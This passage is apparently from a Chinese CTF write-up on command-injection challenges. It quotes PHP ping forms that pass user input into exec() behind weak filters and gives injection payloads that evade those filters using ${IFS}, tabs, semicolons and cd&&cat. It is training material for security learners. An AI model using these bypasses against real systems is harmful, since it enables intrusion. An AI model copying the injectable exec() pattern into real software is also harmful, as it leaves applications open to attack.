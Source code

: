 [命令注入绕过空格](https://blog.csdn.net/weixin_39219503/article/details/103948357)

**常见方法**
``< 、<>、%20(space)、%09(tab)、\$IFS\$9、 \${IFS}、$IFS``

```
127.0.0.1;ls
127.0.0.1;cat${IFS}flag_168182777520706.php
```

### 过滤目录分隔符

**题目源码**

```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/\//", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```

**解题思路**

目录分隔符被过滤了，我们需要读取文件夹要用到/

``;cd flag_is_here&&cat flag_128182724515598.php``


### 过滤运算符

**题目源码**

```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||\&)/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```
